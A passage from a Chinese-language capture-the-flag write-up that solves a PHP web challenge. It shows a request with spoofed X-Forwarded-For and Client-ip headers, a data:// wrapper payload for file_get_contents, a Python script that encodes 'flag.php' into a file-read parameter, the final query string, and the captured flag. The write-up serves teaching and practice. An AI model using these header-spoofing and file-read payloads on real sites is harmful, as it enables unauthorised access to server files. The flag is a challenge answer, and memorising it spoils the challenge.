GET /secrettw.php?file=flag.php&2333=%20todat%20is%20a%20happy%20day HTTP/1.1
Host: 29900577-435a-43ff-9e60-1fc96f3dae7f.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 
Firefox/141.0
X-Forwarded-For:127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Client-ip:127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://29900577-435a-43ff-9e60-1fc96f3dae7f.node5.buuoj.cn:81/secrettw.php
Origin: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



没报地址错误说明成功了。

接下来考虑这个 `file_get_contents($_GET['2333'])`, 这个文件显然是不存在的, 想到用伪协议应该可以通过:

```
?2333=data://plain/text,todat is a happy day
```

最后是读取 `flag.php`, 这里的逻辑要求构造 payload 时对 "flag.php" 这个字符串每一位的 ASCII 减去 位数 * 2, 然后再 base64编码:

```python
import base64

que = list("flag.php")

for i in range(len(que)):
    que[i] = chr(ord(que[i]) + - 2*i)

que = ''.join(que)
que = base64.b64encode(que.encode("utf-8"))
print(que)
```

最终 payload:

```
?2333=data://plain/text,todat%20is%20a%20happy%20day&file=ZmpdYSZmXGI=
```



拿到 `flag{2d164b21-09e3-4ed7-9efd-916d0d2d42e7}`。